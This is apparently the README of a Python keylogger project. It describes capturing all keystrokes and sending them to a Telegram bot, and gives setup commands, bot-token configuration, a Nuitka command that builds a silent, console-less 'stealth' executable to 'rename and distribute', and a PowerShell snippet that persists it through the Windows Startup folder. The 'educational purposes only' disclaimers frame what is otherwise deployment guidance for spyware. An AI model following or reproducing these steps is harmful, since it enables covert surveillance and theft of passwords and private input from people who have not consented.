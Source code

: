 
# Keylogger with Telegram Bot Integration (Nuitka-Compiled)

> ⚠️ **Disclaimer**: This project is for **educational purposes only**. Unauthorized use of keyloggers is illegal and unethical. Do **not** use or distribute this software without **explicit permission** from all affected parties.

---

## 📌 Features

- 🔐 Captures all keyboard input.
- 📤 Sends logs to a Telegram bot at configurable intervals.
- 🛠️ Built in Python, compiled with **Nuitka** to `.exe` for performance and obfuscation.
- 🧙 Runs silently in the background without popping up a terminal window.

---

## ⚙️ Requirements

- Python 3.8 – 3.12
- [Telegram Bot Token](https://core.telegram.org/bots#botfather)
- Telegram Chat ID

Python packages:

```bash
pip install pynput requests
```

Compiler:

```bash
pip install nuitka
```

---

## 📁 Setup

1. Clone this repository or download the files.
2. Open the `keylogger.py` file and set:

```python
TELEGRAM_BOT_TOKEN = "your_bot_token"
TELEGRAM_CHAT_ID = "your_chat_id"
LOG_INTERVAL = 1800  # Log sending interval in seconds (default: 30 minutes)
```

3. Your main file should be named `keylogger.py`.

---

## 🚀 Running the Script

### Run with Python (for testing)

```bash
python keylogger.py
```

---

## 🧙‍♂️ Compile to a Stealth `.exe` using Nuitka

Use the following command to compile your Python script to a **single `.exe`** that **runs in the background** (no terminal pop-up):

```bash
 & "$env:USERPROFILE\AppData\Roaming\Python\Python312\Scripts\nuitka.cmd" --standalone --onefile --windows-disable-console keylogger.py
```

The executable will be located in the `/keylogger.dist/` folder. You can rename and distribute it as needed.

> 🧠 Tip: You can also add `--remove-output` and `--nofollow-imports` for a cleaner, smaller output.

---

## 📦 Optional: Add to Startup (Windows)

To make the program run at startup, you can move the `.exe` to the startup folder:

```powershell
$shortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.lnk"
$target = "C:\Path\To\Your\keylogger.exe"
$ws = New-Object -ComObject WScript.Shell
$sc = $ws.CreateShortcut($shortcut)
$sc.TargetPath = $target
$sc.Save()
```

---

## ❗ Disclaimer

This software is intended **solely for ethical, educational, and authorized testing** purposes. Using this software on systems or individuals without proper consent is a **criminal offense**. The creator holds **no liability** for any misuse or damage caused by this software.

---

